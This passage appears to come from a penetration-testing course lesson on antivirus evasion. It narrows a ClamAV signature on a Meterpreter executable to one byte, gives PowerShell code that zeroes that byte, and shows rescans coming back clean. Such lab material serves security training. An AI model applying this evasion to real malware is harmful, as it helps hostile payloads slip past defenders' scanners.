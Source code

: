 > Listing 9 - Scanning the 10 byte interval range

Let's narrow this down again, by splitting the 18860-18870 range into one-byte intervals. We'll save the results to a new directory and scan it:

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest5
C:\Tools\avtest5\met_18860.bin: OK
C:\Tools\avtest5\met_18861.bin: OK
C:\Tools\avtest5\met_18862.bin: OK
C:\Tools\avtest5\met_18863.bin: OK
C:\Tools\avtest5\met_18864.bin: OK
C:\Tools\avtest5\met_18865.bin: OK
C:\Tools\avtest5\met_18866.bin: OK
C:\Tools\avtest5\met_18867.bin: Win.Trojan.Swrort-5710536-0 FOUND
C:\Tools\avtest5\met_18868.bin: Win.Trojan.Swrort-5710536-0 FOUND
C:\Tools\avtest5\met_18869.bin: Win.Trojan.Swrort-5710536-0 FOUND
C:\Tools\avtest5\met_18870.bin: Win.Trojan.Swrort-5710536-0 FOUND
...
```

> Listing 10 - Scanning the 1 byte interval range

Since the byte at offset 18867 of the Meterpreter executable is part of the ClamAV signature, let's change it in an attempt to evade detection.

We'll use PowerShell\_ISE to read the bytes of the Meterpreter executable, zero out the byte at offset 18867, and write the modified executable to a new file, met\_mod.exe:

```
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

> Listing 11 - Modifying the Meterpreter executable

To find out if the modification worked, we'll repeat the split and scan, this time on the modified executable. Listing 12 shows a scan of the one-byte split between offset 18860 and 18870.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest6
C:\Tools\avtest6\met_mod_18860.bin: OK
C:\Tools\avtest6\met_mod_18861.bin: OK
C:\Tools\avtest6\met_mod_18862.bin: OK
C:\Tools\avtest6\met_mod_18863.bin: OK
C:\Tools\avtest6\met_mod_18864.bin: OK
C:\Tools\avtest6\met_mod_18865.bin: OK
C:\Tools\avtest6\met_mod_18866.bin: OK
C:\Tools\avtest6\met_mod_18867.bin: OK
C:\Tools\avtest6\met_mod_18868.bin: OK
C:\Tools\avtest6\met_mod_18869.bin: OK
C:\Tools\avtest6\met_mod_18870.bin: OK
...
```

> Listing 12 - Scanning the modified executable
